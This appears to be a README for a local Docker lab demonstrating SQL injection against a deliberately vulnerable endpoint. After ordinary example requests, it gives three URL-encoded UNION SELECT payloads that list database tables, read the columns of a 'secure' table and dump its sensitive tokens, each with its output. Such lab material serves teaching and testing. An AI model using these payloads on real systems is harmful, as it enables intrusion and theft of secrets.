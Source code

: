 # practical-sql-injection-test

## RUN

```shell
docker-compose up --build
```

## Prepare

```shell
cd src
./init.sh
```

## SQL Injection test

### Check standard
Listed public names

* http://localhost:8000/inject/list

```json
["hoge","foo","fuga"]
```

### Check standard item
Get set the item

* http://localhost:8000/inject/list/hoge

```json
["hoge"]
```

### Check not found
Check not found request

* http://localhost:8000/inject/list/foofoo

```json
{"detail":"Not found"}
```

### SQL Injection
#### Get tables
Get table list with injection

* http://localhost:8000/inject/list/'%20union%20all%20SELECT%20Table_name%20as%20TablesName%20from%20information_schema.tables%20where%20table_type%20%3D%20'BASE%20TABLE'%3B%20--%20'

```json
["public","secure"]
```

#### Get columns of secure table
Get columns of secure table

* http://localhost:8000/inject/list/'%20union%20all%20select%20column_name%20from%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME%3D'secure'%3B%20--%20'

```json
["token"]
```

#### Get tokens in secure table
Get tokens in the secure table, the token is sensitive data

* http://localhost:8000/inject/list/'%20union%20all%20select%20token%20from%20secure%3B%20--%20'


```json
["c2dbf691-4275-47a5-a392-c64aa7fa3c2d","f4d78ea1-ded7-436e-8c89-984b93552d91","442744cc-62cb-41a5-b3b4-6bc90d9c5951"]
```
